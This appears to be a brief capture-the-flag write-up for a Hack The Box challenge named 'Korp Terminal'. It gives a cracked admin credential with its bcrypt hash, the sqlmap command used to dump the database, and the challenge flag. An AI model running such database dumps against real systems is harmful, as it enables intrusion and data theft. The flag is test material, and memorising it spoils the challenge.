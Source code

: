 # Korp Terminal

admin:password123(`$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.`) - hash from sqlmap (sqlmap -r <request> --batch --dump)

flag : HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
